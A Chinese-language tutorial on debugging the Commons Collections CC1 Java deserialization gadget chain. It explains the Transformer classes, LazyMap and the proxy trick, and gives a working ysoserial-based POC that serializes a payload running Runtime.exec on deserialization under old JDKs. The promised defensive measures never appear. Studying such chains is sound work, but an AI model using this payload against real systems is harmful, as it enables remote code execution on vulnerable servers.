


# CC1

## 准备环境

JDK1.7(7u80)、commons-collections(3.x 4.x均可这里使用3.2版本)

JDK：https://repo.huaweicloud.com/java/jdk/7u80-b15/jdk-7u80-windows-x64.exe

cc3.2：

```
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2</version>
</dependency>
```

## CC简介

[Apache Commons Collections](http://commons.apache.org/proper/commons-collections/index.html) 是一个扩展了 Java 标准库里的 Collection 结构的第三方基础库，它提供了很多强有力的数据结构类型并实现了各种集合工具类。作为 Apache 开源项目的重要组件，被广泛运用于各种 Java 应用的开发。commons-collections这里简称cc。

CC1、CC2，这里指的不是cc库的版本，而是cc库的不同的利用方式，或者叫poc代码的攻击链构造方式，同时cc库版本对最终的利用结果有较大的影响，所以文章中会先给出对应的JDK版本和commons-collections版本，以便于后期调试不会出现差错。

## 正文

本文将介绍如何调试 **CC1链反序列化漏洞**，通过具体示例来展示如何捕获和利用这一漏洞，并最终提供防范措施，帮助开发者在应用中避免此类问题。

CC1链利用了 **Apache Commons Collections** 中的反序列化漏洞。攻击者通常会构造一个链式对象，其中一个对象会调用另一个对象的方法，最终通过调用一些不安全的方法来执行恶意操作。

以下介绍几个cc1链中非常重要的几个类。

### Transformer

`Transformer` 是 Apache Commons Collections 库中的一个核心接口，用于在 Java 中实现对象转换的功能。它通常与其他一些类一起使用，例如 `ChainedTransformer`、`InvokerTransformer` 和 `ConstantTransformer`，来构造复杂的反序列化攻击链。在反序列化漏洞利用中，`Transformer` 主要用于创建对象链，最终实现执行恶意操作的目标。

`Transformer` 是一个简单的接口，它定义了一个通用的方法 `transform()`，用于将输入对象转换成输出对象。其基本形式如下：

```java
public interface Transformer {
    Object transform(Object var1);
}
```

### ConstantTransformer

`ConstantTransformer` 类实现了 `Transformer` 接口，其作用是将所有输入的对象转换为一个常量对象。它通常用于在对象链中生成固定的返回值。

```java
public class ConstantTransformer implements Transformer {
    private final Object constant;

    public ConstantTransformer(Object constant) {
        this.constant = constant;
    }

    public Object transform(Object input) {
        return constant;
    }
}
```

在反序列化漏洞的利用中，`ConstantTransformer` 经常被用来将对象转换为某个固定的对象。例如，它可以将任何传入的对象转换为一个 `Runtime` 类的实例，方便后续链式调用 `exec()` 方法来执行恶意命令。

### InvokerTransformer

`InvokerTransformer` 是一个非常重要的实现类，它允许调用某个对象的方法并返回结果。它接受方法名和方法参数类型，并执行该方法。

```java
public class InvokerTransformer implements Transformer {
    private final String methodName;
    private final Class[] paramTypes;
    private final Object[] args;

    public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        this.methodName = methodName;
        this.paramTypes = paramTypes;
        this.args = args;
    }

    // 这个方法中的反射是重点
    public Object transform(Object input) {
        ......
        Class cls = input.getClass();
        Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
        return method.invoke(input, this.iArgs);
        ......
    }
}

```

在反序列化漏洞中，`InvokerTransformer` 允许攻击者通过构造恶意链来调用目标方法。例如，可以使用 `InvokerTransformer` 调用 `Runtime.getRuntime().exec()` 来执行恶意命令。

### ChainedTransformer

`ChainedTransformer` 是一个允许将多个 `Transformer` 链接起来按顺序执行的类。它接收一个 `Transformer` 数组，并依次将输入对象传递给每个 `Transformer`，直到返回最终的转换结果。

```java
public class ChainedTransformer implements Transformer {
    private final Transformer[] transformers;

    public ChainedTransformer(Transformer[] transformers) {
        this.transformers = transformers;
    }

    public Object transform(Object object) {
        for(int i = 0; i < this.iTransformers.length; ++i) {
            object = this.iTransformers[i].transform(object);
        }
        return object;
    }
}
```

`ChainedTransformer` 在反序列化漏洞利用中非常重要，因为它允许攻击者构建一条对象链，每个链环执行特定的恶意操作，最终实现目标操作。

## 通过Transformer构造调用链

这里是ysoserial中的代码，我们直接改一下拿来用，以方便调试

```java
public class CommonsCollections1 {
    static String serialFileName = "commons-collections1.ser";

    public static void main(String[] args) throws Exception {
        cc1bySerial();
        verify();
    }
    public static void verify() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Transformer chain = (Transformer) ois.readObject();
        chain.transform(1);
    }

    public static void cc1bySerial() throws Exception {
        String execArgs = "calc";
        // 这一段是ysoserial中的CommonsCollections代码
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{ new ConstantTransformer(1) });
        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{execArgs}),
                new ConstantTransformer(1) };
        // 下边是自己加的代码，是为了调试
        Class<?> transformer = Class.forName(ChainedTransformer.class.getName());
        Field iTransformers = transformer.getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain, transformers);

        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(transformerChain);
        oos.flush();
        oos.close();
        fos.close();
    }
}
```



在chain执行完transform方法之后，我们构造的代码被执行，让我们来分析一下代码是如何被执行的。

### ChainedTransformer构造调用链

`ChainedTransformer` 是一个“组合”模式的实现，允许多个 `Transformer` 组合成一个更复杂的行为。其工作原理是按顺序调用多个 `Transformer`，每个 `Transformer` 处理并修改输入对象，直到最终返回一个结果。

`ChainedTransformer` 接受一个 `Transformer[]` 数组，在构造时将这些 `Transformer` 按顺序组合成链。

**`transform` 方法**：该方法实现了 `Transformer` 接口。在此方法中，`ChainedTransformer` 依次调用每个 `Transformer` 对输入对象 `input` 进行转换。每次调用后，转换结果会成为下一个 `Transformer` 的输入，直到所有 `Transformer` 都执行完毕，最终返回转换后的结果。

我刚学习的时候好奇，Runtime.getRuntime().exec("calc")为什么不能写成以下这个样子？

```java
Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(Runtime.class), 
    new InvokerTransformer("getRuntime", null, null),
    new InvokerTransformer("exec", new Class[] { String.class }, new Object[] { "calc" })
};
ChainedTransformer chain = new ChainedTransformer(transformers);
```

这是Runtime.getRuntime()是一个Runtime类下的一个静态方法，无法通过Transformer中的反射方法直接创建实例，所以只能写成下边这样的变种代码：

```java
Transformer[] transformer_exec = new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};
```

OK，我们回头来看一下ConstantTransformer和InvokerTransformer是怎么个逻辑。

```java
public class ConstantTransformer implements Transformer {
    private final Object constant;

    public ConstantTransformer(Object constant) {
        this.constant = constant;
    }

    public Object transform(Object input) {
        return constant;
    }
}
```

InvokerTransformer

```java
public class InvokerTransformer implements Transformer {
    private final String methodName;
    private final Class[] paramTypes;
    private final Object[] args;

    public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        this.methodName = methodName;
        this.paramTypes = paramTypes;
        this.args = args;
    }

    // 这个方法中的反射是重点
    public Object transform(Object input) {
        ......
        Class cls = input.getClass();
        Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
        return method.invoke(input, this.iArgs);
        ......
    }
}
```

最重要的是ChainedTransformer，它将两个Transformer组合了起来：

```java
public class ChainedTransformer implements Transformer {
    private final Transformer[] transformers;

    public ChainedTransformer(Transformer[] transformers) {
        this.transformers = transformers;
    }
	// 反序列化后调用了这个方法，object任传一个即可
    public Object transform(Object object) {
        for(int i = 0; i < this.iTransformers.length; ++i) {
      // i=0: ConstantTransformer.transform()此时object作为参数值，没有任何用，在transform执行后object对应的值会被覆盖为constant。
      // i=1: InvokerTransformer.transform()接收Runtime.class,传入Runtime.class作为input，得到getRuntime方法的Class反射对象
      // i=2: 传入getRuntime方法的Class反射对象，得到invoke方法实例
      // i=3: 传入invoke的Method方法实例，然后调用exec方法，指定exec方法的参数是cala
            object = this.iTransformers[i].transform(object);
        }
        return object;
    }
}
ConstantTransformer {
     public Object transform(Object input) {
        return constant;
    }
}
InvokerTransformer{
    public Object transform(Object input) {
        ......
        Class cls = input.getClass();
        Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
        return method.invoke(input, this.iArgs);
        ......
    }
}
```

上边的调用链代码最终的调用过程非常类似于下边的过程：

```java
// 第一个构造参数调用链
Class<Runtime> runtimeClass = Runtime.class;
Class<? extends Class> runClass = runtimeClass.getClass();
// 第二个参数调用
Method getMethod = runClass.getMethod("getMethod", String.class, Class[].class);
Object getMethodInvoke = getMethod.invoke(runtimeClass, "getRuntime", null);
// 第三个参数调用
Class<?> invokeClass = getMethodInvoke.getClass();
Method invokeMethod = invokeClass.getMethod("invoke", Object.class, Object[].class);
Object invokeMethodInvoke = invokeMethod.invoke(getMethodInvoke, null, null);
// 第四个参数调用
Class<?> execClass = invokeMethodInvoke.getClass();
Method execMethod = execClass.getMethod("exec", String.class);
execMethod.invoke(invokeMethodInvoke, "calc");
```

现在调用链被找到了，但是其他使用了反序列化的地方肯定不会手动调用transformer方法啊，我们需要找一个能自动调用transformer的地方，比如CC1中提到了以下类：

### AbstractMapDecorator

`AbstractMapDecorator` 是 Apache Commons Collections 中的一个类，它实现了 `Map` 接口，并且提供了一个装饰器模式的实现，用来装饰一个已有的 `Map` 实例。`AbstractMapDecorator` 主要的作用是提供一个框架，允许你通过继承它来对 `Map` 的行为进行修改或增强。

在反序列化漏洞中，`AbstractMapDecorator` 是一个常见的类，用来构建复杂的 `Map` 装饰器，通常与其他类一起使用，配合 `LazyMap`、`ChainedTransformer` 等类，构建出恶意的链条。

`AbstractMapDecorator` 是一个抽象类，它实际上并不直接操作 `Map`，而是通过持有一个 `Map` 实例，并对该实例的方法进行委托（delegation）和扩展，来实现装饰器模式。

```java
public abstract class AbstractMapDecorator<K, V> implements Map<K, V> {
    protected final Map<K, V> decorated;

    protected AbstractMapDecorator(Map<K, V> map) {
        this.decorated = map;
    }

    // 接口方法实现，通过委托给装饰的 Map
    public V put(K key, V value) {
        return decorated.put(key, value);
    }

    public V get(Object key) {
        return decorated.get(key);
    }

    public Set<Map.Entry<K, V>> entrySet() {
        return decorated.entrySet();
    }

    // 其他 Map 接口方法，通常通过委托实现
}

```

`decorated`：这是 `AbstractMapDecorator` 维护的实际 `Map` 对象。所有的方法调用都会委托给这个 `decorated` 的 `Map` 实例，`AbstractMapDecorator` 只是提供了一个框架，可以对 `Map` 的方法进行增强。

AbstractMapDecorator有多个实现类，如：LazyMap/LazyMapDecorator、TiedMapEntry/TiedMapEntryDecorator、MapEntry/MapEntryDecorator。

### LazyMap

`LazyMap` 是 **Commons Collections** 中的一个集合类，它的作用是延迟加载数据。即只有在需要的时候（例如通过 `get` 方法），才会触发 `Transformer` 链条的执行。在反序列化攻击中，`LazyMap` 通常用来延迟触发恶意操作，而不是在创建对象时立即执行，这有助于绕过一些检查或避免直接触发攻击。

**懒加载**：`LazyMap` 在访问某个键时，不会立即返回存储的值，而是通过 `Transformer` 动态生成。这个过程是懒加载的，只有在访问 `get()` 方法时才会触发。

**触发攻击链**：由于 `LazyMap` 能够在访问键时执行 `Transformer`，它被广泛用于反序列化攻击中，用来在 `get()` 方法中触发代码执行链（如调用 `Runtime.getRuntime().exec()` 执行命令）。

### Proxy 和 InvocationHandler

`Proxy` 和 `InvocationHandler` 是 Java 动态代理的核心组件，在反序列化链中也经常用来实现一些动态行为：

1. **Proxy**：`Proxy` 类用于创建一个代理实例，代理对象能够调用指定的 `InvocationHandler` 进行实际的调用。在反序列化链中，`Proxy` 可能用来替代一个正常的对象，以触发代理调用的执行。
2. **InvocationHandler**：每当 `Proxy` 对象的方法被调用时，实际的处理逻辑会交由 `InvocationHandler` 中的 `invoke()` 方法来处理。在反序列化攻击链中，`InvocationHandler` 可以被设置成执行危险操作，比如执行外部命令或加载恶意类。

一个简单的关于动态代理的简单例子：

```java
public interface MyInterface {
    void sayHello(String name);
}
public class MyInvocationHandler implements InvocationHandler {

    private Object target;

    public MyInvocationHandler(Object target) {
        this.target = target;
    }

    @Override
    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
        System.out.println("Before invoking method: " + method.getName());
        // 调用真实对象的方法
        Object result = method.invoke(target, args);
        System.out.println("After invoking method: " + method.getName());
        return result;
    }
}
public class DynamicProxyExample {
    public static void main(String[] args) {
        MyInterface target = new MyInterface() {
            @Override
            public void sayHello(String name) {
                System.out.println("Hello, " + name);
            }
        };

        // 创建 InvocationHandler
        InvocationHandler handler = new MyInvocationHandler(target);
        // 创建代理对象
        MyInterface proxy = (MyInterface) Proxy.newProxyInstance(
            target.getClass().getClassLoader(),
            target.getClass().getInterfaces(),
            handler
        );
        // 使用代理对象，直接通过MyInvocationHandler调用到了target中的invoke方法
        proxy.sayHello("World");
    }
}

```

### 构造完整POC(基于ysoserial)

ysoserial中写了一些工具类来方便使用，但是这里直接把ysoserial中的代码择出来了，以便于调试学习，也对代码进行了小的调整，但区别不大。

```java
public static void cc1bySerial() throws Exception {
    String execArgs = "cmd /c start";
    final Transformer transformerChain = new ChainedTransformer(
            new Transformer[]{ new ConstantTransformer(1) });
    // real chain for after setup
    final Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {
                    String.class, Class[].class }, new Object[] {
                    "getRuntime", new Class[0] }),
            new InvokerTransformer("invoke", new Class[] {
                    Object.class, Object[].class }, new Object[] {
                    null, new Object[0] }),
            new InvokerTransformer("exec",
                    new Class[] { String.class }, new Object[]{execArgs}),
            new ConstantTransformer(1) };
    // 等同于ysoserial中的Reflections.setFieldValue(transformerChain, "iTransformers", transformers);写法
    Class<?> transformer = Class.forName(ChainedTransformer.class.getName());
    Field iTransformers = transformer.getDeclaredField("iTransformers");
    iTransformers.setAccessible(true);
    iTransformers.set(transformerChain, transformers);
    // 先创建LazyMap，用来将transformerChain包装成一个Map，当Map中的get方法被触发时就能直接触发到调用链
    final Map lazyMap = LazyMap.decorate(new HashMap(), transformerChain);
    // 首先通过反射获取 AnnotationInvocationHandler 类的构造函数，并且确保这个构造函数可以被访问。然后通过类名加载 AnnotationInvocationHandler 类，获取该类的第一个构造函数。由于 AnnotationInvocationHandler 类的构造函数可能是私有的，调用 setAccessible(true) 可以让我们绕过 Java 的访问控制机制，允许通过反射创建其实例。
    final Constructor<?> ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
    ctor.setAccessible(true);
    // 使用反射创建一个 AnnotationInvocationHandler 的实例，并将 Target.class 和 lazyMap 作为构造函数的参数传入，其中 Documented.class 是 AnnotationInvocationHandler 的第一个参数(其实用什么都行，找任意一个有属性的注解都可以)，lazyMap 是第二个参数。得到的handler是一个实现了 InvocationHandler 接口的实例，用于处理方法调用。此时，handler可以通过 lazyMap 进行一些动态行为处理，比如懒加载或代理。
    InvocationHandler handler = (InvocationHandler) ctor.newInstance(Documented.class, lazyMap);
    // 通过 Proxy.newProxyInstance() 创建 LazyMap 的动态代理实例，代理对象会将方法调用委托给我们之前创建的 handler。
    // LazyMap.class.getClassLoader()：指定代理类的类加载器为 LazyMap 的类加载器。
    // LazyMap.class.getInterfaces()：指定代理类需要实现的接口，这里是 LazyMap 接口。
    // handler：指定一个 InvocationHandler，这个 handler 会拦截对 LazyMap 代理实例的方法调用并执行自定义的逻辑。
    Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), LazyMap.class.getInterfaces(), handler);
    // 再次使用反射，创建一个新的 AnnotationInvocationHandler 实例，并将 Documented.class 和 mapProxy 作为构造函数的参数，mapProxy 是上一步创建的 LazyMap 的动态代理对象，在这里作为参数传递给 AnnotationInvocationHandler，所以 AnnotationInvocationHandler 会被赋予一个处理懒加载行为的代理对象。
    // 这意味着 AnnotationInvocationHandler 现在会在某些方法调用时与 mapProxy 交互，而 mapProxy 的方法调用会被委托给我们提供的 handler，后者在内部可以处理懒加载或其他定制的行为。
    InvocationHandler invocationHandler = (InvocationHandler) ctor.newInstance(Documented.class, mapProxy);
    FileOutputStream fos = new FileOutputStream(serialFileName);
    ObjectOutputStream oos = new ObjectOutputStream(fos);
    oos.writeObject(invocationHandler);
    oos.flush();
    oos.close();
    fos.close();
}
```

总结起来就是，我们要触发AnnotationInvocationHandler中的invoke方法，而这个方法会在动态代理过程中被调用。

最后让我们运行一下，弹一个cmd窗口吧，注意这份代码只有在JDK<8u21的版本下运行才可以，推荐直接使用JDK：[华为JDK镜像源 7u80-windows-x64下载](https://repo.huaweicloud.com/java/jdk/7u80-b15/jdk-7u80-windows-x64.exe)，最后看下运行效果



## 调用链总结 - ysoserial

* ObjectInputStream.readObject()
  * AnnotationInvocationHandler.readObject()
    * Map(Proxy).entrySet()
      * AnnotationInvocationHandler.invoke()
        * LazyMap.get()
          * ChainedTransformer.transform()
            * ConstantTransformer.transform()
              * InvokerTransformer.transform()
                * Method.invoke()
                * Class.getMethod()
              * InvokerTransformer.transform()
                * Method.invoke()
                * Runtime.getRuntime()
              * InvokerTransformer.transform()
                * Method.invoke()
                * Runtime.exec()